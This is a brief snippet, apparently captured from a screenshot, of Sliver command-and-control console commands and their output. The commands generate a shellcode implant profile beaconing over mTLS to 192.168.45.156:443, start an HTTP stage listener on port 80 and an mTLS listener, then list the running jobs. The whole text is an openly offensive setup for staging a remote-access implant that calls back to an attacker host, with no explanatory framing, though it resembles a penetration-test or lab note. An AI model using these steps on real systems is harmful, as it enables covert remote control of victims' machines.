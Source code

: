 sliver > profiles new --mtls 192.168.45.156:443 -G --format shellcode sliver
sliver > stage-listener --url http://192.168.45.156:80 --profile sliver
sliver > mtls -L 192.168.45.156 -l 443
sliver > jobs

 ID   Name   Protocol   Port   Stage Profile                          
==== ====== ========== ====== ========================================
 4    mtls   tcp        443                                           
 5    http   tcp        80     sliver (Sliver name: DEVELOPED_BULLET) 
